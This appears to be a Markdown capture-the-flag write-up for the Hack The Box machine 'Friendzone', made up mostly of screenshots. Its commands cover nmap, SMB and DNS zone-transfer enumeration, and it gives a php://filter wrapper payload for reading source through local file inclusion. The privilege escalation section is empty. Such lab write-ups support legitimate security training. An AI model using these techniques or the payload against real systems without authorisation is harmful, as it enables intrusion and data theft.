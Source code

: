 # Friendzone Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -sC -sV -oA friendzone 10.10.10.123``

![image](https://user-images.githubusercontent.com/123066149/227715804-9215496e-3212-469c-9da1-272ade4a802c.png)

# ${{\color{purple}Initial Foothold}}\ $

### SMB enum

``smbmap -H 10.10.10.123``

![image](https://user-images.githubusercontent.com/123066149/227715847-cc1680ce-78f5-4084-9049-abbb1956db7d.png)

``smbclient //10.10.10.123/general``

![image](https://user-images.githubusercontent.com/123066149/227715872-df527fba-0711-43e1-b6af-d8db2f05a723.png)

![image](https://user-images.githubusercontent.com/123066149/227715906-0a8e9703-d052-4a94-bb56-0ebed1a64826.png)

### Web enum

![image](https://user-images.githubusercontent.com/123066149/227716034-45ddf9e5-3391-4958-a484-8b4432dd6f9a.png)

![image](https://user-images.githubusercontent.com/123066149/227717200-c5afeb24-6b94-4087-b72d-1c78f0607f13.png)

### DNS enum

``dig axfr @10.10.10.123 friendzone.red``

![image](https://user-images.githubusercontent.com/123066149/227717361-e5234c86-9ff2-48f1-a030-ed286133ef53.png)

``dig axfr @10.10.10.123 friendzoneportal.red``

![image](https://user-images.githubusercontent.com/123066149/227717371-0b0457e9-2a73-4fb8-84d7-0a683de8e41f.png)

``cat transfertdezones | grep IN | grep friendzone |awk '{print $1}' |sort -u |sed 's/\.$//g'``

![image](https://user-images.githubusercontent.com/123066149/227717410-eb5cca38-32b9-4aa7-99e1-ffedca50dbe6.png)

``:%s/\n/ /g``

![image](https://user-images.githubusercontent.com/123066149/227717528-fe3d6f81-9df7-47fb-8c1c-c7cb5d0924c3.png)


# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/227717586-e965ab7e-c342-4c9b-bf7c-0d1aa3b29443.png)

``cat hosts | aquatone ``

![image](https://user-images.githubusercontent.com/123066149/227717634-2ac6ba4a-8b53-4614-8bfd-3a9b5e1a6043.png)

``file:///home/kali/Documents/htb/friendzone/aquatone_report.html#/``

![image](https://user-images.githubusercontent.com/123066149/227717700-c385116f-882a-4504-9a60-1cb5b4c600a7.png)

![image](https://user-images.githubusercontent.com/123066149/227717711-648aa72f-28d0-4f20-a493-02e73f3731d2.png)

![image](https://user-images.githubusercontent.com/123066149/227717731-05a021e8-9626-4868-b9ff-964a44ae592b.png)

![Capture](https://user-images.githubusercontent.com/123066149/227717846-1a2f0735-3c47-4733-9e4d-07e21c2726e6.PNG)

``php://filter/convert.base64-encode/resource=index``

![image](https://user-images.githubusercontent.com/123066149/227717866-cce155d7-e113-4c93-be7d-2b2573ab3a0c.png)

``echo -n azeazeazeeazea | base64 -d``

![image](https://user-images.githubusercontent.com/123066149/227717897-56948f7e-6460-4282-8487-ece63bd07159.png)


# ${{\color{purple}Privilege Escalation}}\ $

# ${{\color{purple}Point of Improvement}}\ $
